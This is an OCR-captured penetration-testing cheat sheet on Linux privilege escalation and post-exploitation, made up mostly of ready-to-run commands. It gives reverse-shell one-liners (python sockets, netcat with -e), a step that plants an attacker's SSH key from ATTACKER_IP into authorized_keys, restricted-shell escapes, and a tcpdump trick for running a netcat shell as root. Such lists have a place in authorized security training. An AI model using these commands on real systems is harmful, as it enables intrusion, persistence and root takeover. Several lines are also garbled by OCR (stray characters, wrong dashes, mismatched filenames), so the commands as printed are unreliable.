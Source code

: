 ﻿Linux elevation of privileges ToC

* [Post exploitation](#Post exploitation)
* [Escaping limited interpreters](#Escaping limited interpreters)
* [Linux elevation of privileges, manual testing](#Linux elevation of privileges, manual testing)
* [Scripts to run](#Scripts to run)
* [Exploits worth running](#Exploits worth running)
* [Open an xterm remotely](#Open an xterm remotely)
* [Get proof](#Get proof)
* [Elevation in 2.6.x:](#Elevation in 2.6.x:)

Post exploitation

Get a TTY shell after a reverse shell connection

$ python -c 'import pty;pty.spawn("/bin/bash")'

Set PATH TERM and SHELL if missing:

$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

export TERM=xterm

export SHELL=bash

Add public key to authorized keys:

$ echo $(wget https://ATTACKER\_IP/.ssh/id\_rsa.pub) >> ~/.ssh/authorized\_keys

Escaping limited interpreters

Some payloads to overcome limited shells:

$ ssh user@$ip nc $localip 4444 -e /bin/sh

enter user's password

$ python -c 'import pty; pty.spawn("/bin/sh")'

$ export TERM=linux

$ python -c 'import pty; pty.spawn("/bin/sh")'

$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),   \*$ 1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

$ echo os.system('/bin/bash')

$ /bin/sh -i

$ exec "/bin/sh";

$ perl —e 'exec "/bin/sh";'

From within tcpdump

$ echo $’id\n/bin/netcat $ip 443 -e /bin/bash’ > /tmp/.test

chmod +x /tmp/.test

sudo tcpdump -ln -I eth- -w /dev/null -W 1 -G 1 -z /tmp/.tst -Z root
